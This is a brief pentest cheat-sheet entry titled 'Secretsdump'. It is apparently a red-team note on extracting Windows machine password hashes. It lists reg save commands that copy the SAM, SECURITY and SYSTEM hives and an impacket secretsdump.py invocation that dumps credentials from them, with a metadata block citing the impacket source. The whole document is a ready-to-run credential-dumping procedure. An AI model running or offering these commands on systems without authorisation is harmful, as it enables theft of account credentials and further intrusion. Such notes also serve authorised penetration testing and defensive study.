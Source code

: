 # Secretsdump

## [[SAM]]
Receiving machine passwords via impacket (Admin):
    ```powershell
    # Change permissions of hklm\security to full access
    reg save hklm\sam c:\temp\sam.save
    reg save hklm\security c:\temp\security.save
    reg save hklm\system c:\temp\system.save
    secretsdump.py -sam C:\Users\ext_ecorp_admin\Desktop\sam.save -security C:\Users\ext_ecorp_admin\Desktop\security.save -system C:\Users\ext_ecorp_admin\Desktop\system.save LOCAL
    ```

## References


```meta
requirements: 
results: 
opsec: 
oss: #linux
source: https://github.com/SecureAuthCorp/impacket/blob/master/examples/secretsdump.py 
description: Dump credentials remote and local via sam
```
